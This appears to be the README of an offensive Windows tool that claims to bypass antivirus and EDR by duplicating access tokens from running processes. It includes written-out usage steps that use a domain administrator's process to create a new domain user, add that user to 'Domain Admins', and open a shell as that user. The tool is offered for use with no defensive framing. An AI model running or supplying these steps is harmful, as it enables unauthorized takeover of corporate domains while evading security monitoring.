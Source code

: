 Bypass AV/EDR

Duplicate (unowned) token from a running process without detections

Duplicate the token of a running process and run a command.

Use when there is a process on behalf of a domain administrator or to generate a CMD on any process.

When used with unowned process PIDs, there will be no screen input/output in the CMD, but the shell works fine.

The source will be published soon, I make it watchable ;-) It was written in Delphi (Lazarous)

Special thanks to Ewan who developed some highly professional units.

have fun

Required: 
- Local administrator role
- Powershell or CMD

Usage:
- Verify your session using command command: >query session
- Verify a valid PID using: tasklist /v findstr explorer
- Run exe file against valid pid and add user to domain: .\hypobrychium.exe -runpid:<valid pid you captured> params:"net user <username> <password> /add /domain"
- Elevate user to domain admin: .\hypobrychium.exe -runpid:<valid pid you captured> -params:"net group 'Domain Admins' add/ <username> /domain"
- Start a new shell as new user: runas /user:<username>@<domain name> cmd
- whoami
